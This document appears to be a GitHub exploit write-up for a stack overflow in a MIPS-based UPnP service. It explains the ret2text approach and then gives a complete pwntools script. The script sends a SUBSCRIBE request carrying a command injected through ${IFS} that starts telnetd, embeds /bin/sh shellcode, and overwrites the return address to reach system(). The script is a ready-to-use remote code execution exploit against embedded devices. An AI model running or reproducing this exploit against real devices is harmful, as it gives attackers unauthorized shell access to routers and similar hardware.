


# Detail_EXP

​	**This is where the vulnerability was triggered**



​	**So we can overlay the return address of the stack overflow function. At that time, we thought about mips-rop, but the 00 character blocked me, so we thought of arranging shellcode on the stack, but ASLR, so I didn't know the stack address. Finally, I chose the utilization method of ret2text to succeed**

​	**Firstly, I chose 0x422850 as the address of stack overflow hijacking. Since MIPS CPU is a multi-level pipeline, you can see that A0 is set as the parameter of system function later, and the parameters are stored on the stack and can be controlled.**

​	

​	 **payload can be constructed now. First, the subscribe request is required to enter the function that can overflow the stack**

```
SUBSCRIBE ....  HTTP/1.0\n
```

​	**How much length is required for normal calculation, and try not to destroy some key variables**

​	Finally, this is my exp, which can open telnetd service

```
from pwn import *
p=remote("192.168.0.110",5000)
request = "SUBSCRIBE /gena.telnetd${IFS}-p${IFS}23;?service=" + "1" + " HTTP/1.0\n"
request += "Host: " + "192.168.1.0:" + "80" + "\n"
request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
request += "NT: upnp:event\n"
request += "Timeout: Second-1800\n"
request += "Accept-Encoding: gzip, deflate\n"
request += request+"doud"
stg3_SC =''
stg3_SC += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
stg3_SC += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
stg3_SC += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
stg3_SC += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
stg3_SC += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
stg3_SC += "\xab\x0f\x02\x24\x0c\x09\x09\x01"
request += request+stg3_SC
request = request.ljust(0x1f00,"a")
request += p32(0x7fff7030)
request = request.ljust(0x1f48-0x14,"a")
request += p32(0x422848)
p.send(request)
p.interactive()
```

